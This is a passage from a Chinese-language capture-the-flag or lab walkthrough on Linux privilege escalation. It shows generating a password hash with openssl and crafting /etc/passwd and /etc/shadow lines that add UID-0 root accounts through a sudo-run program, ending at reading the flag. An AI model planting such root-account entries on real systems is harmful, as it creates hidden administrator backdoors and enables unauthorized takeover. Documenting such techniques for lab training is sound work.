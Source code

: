 那么就按照这个进行加密，然后复制这个加密的结果

```shell
openssl passwd -6 -salt lFbb8QQt2wX7eUeE 123456
```

![](./pic-9/36.jpg)

那么现在再次构造，之前是空密码和明文密码，这里采用加密密码，再进行测试

```shell
final1:$6$lFbb8QQt2wX7eUeE$S63c0lmQQPy9FpNzpz5xy688Ur6ZlDQq62BGgeB1tSp5OssLCRc1VhOAIzORv4FplJbZdbR.hohEqY9LCFlmD/:0:0:final1:/root:/bin/bash
```

![](./pic-9/37.jpg)

可以看到，成功提权

假设，若是这种方式也不行的话，可能其做了限制，不允许在`/etc/passwd`中添加密码，只能在`/etc/shadow`文件中，那么就需要再次构造了



```shell
#写入到/tmp/final2_user中，然后通过sudo执行test，写入到/etc/passwd中
final2:x:0:0:final2:/root:/bin/bash

#写入到/tmp/final2_pass中，然后通过sudo执行test，写入到/etc/shadow中
final2:$6$lFbb8QQt2wX7eUeE$S63c0lmQQPy9FpNzpz5xy688Ur6ZlDQq62BGgeB1tSp5OssLCRc1VhOAIzORv4FplJbZdbR.hohEqY9LCFlmD/:18259:0:99999:7:::
#这里的加密密码，是上面生成的，就直接使用，知道方法即可
```

![](./pic-9/38.jpg)

查看`flag`
